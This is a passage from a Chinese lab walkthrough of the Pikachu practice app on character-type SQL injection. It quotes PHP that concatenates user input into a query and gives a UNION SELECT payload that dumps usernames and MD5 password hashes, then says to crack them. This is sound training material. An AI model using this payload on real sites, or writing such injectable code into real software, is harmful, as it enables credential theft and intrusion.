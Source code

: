将md5的值进行解密即可得到密码



# 字符型注入(GET)

## 查看关键代码

```php
$link=connect();$html='';if(isset($_GET['submit']) && $_GET['name']!=null){    //这里没有做任何处理，直接拼到select里面去了    $name=$_GET['name'];    //这里的变量是字符型，需要考虑闭合    $query="select id,email from member where username='$name'";    $result=execute($link, $query);    if(mysqli_num_rows($result)>=1){        while($data=mysqli_fetch_assoc($result)){            $id=$data['id'];            $email=$data['email'];            $html.="<p class='notice'>your uid:{$id} <br />your email is: {$email}</p>";        }    }else{        $html.="<p class='notice'>您输入的username不存在，请重新输入！</p>";    }}
```



通过代码可看到这里依然是没有做任何处理，直接拼到select里面去了,形成Sql注入。



## 实战

SQL注入详情可以看sqli-labs系类，这里不进行详细叙述，直接爆账号和密码了。



输入

```plain
XMTX' union select database(),group_concat(concat_ws('-',username,password)) from pikachu.users --
```

![img](../../_img/05-SQL%E6%B3%A8%E5%85%A5/1655882378711-3f20be5d-40b0-4a07-8d01-5c2dfb9d619e.png)

将md5的值进行解密即可得到密码



# 搜索型注入
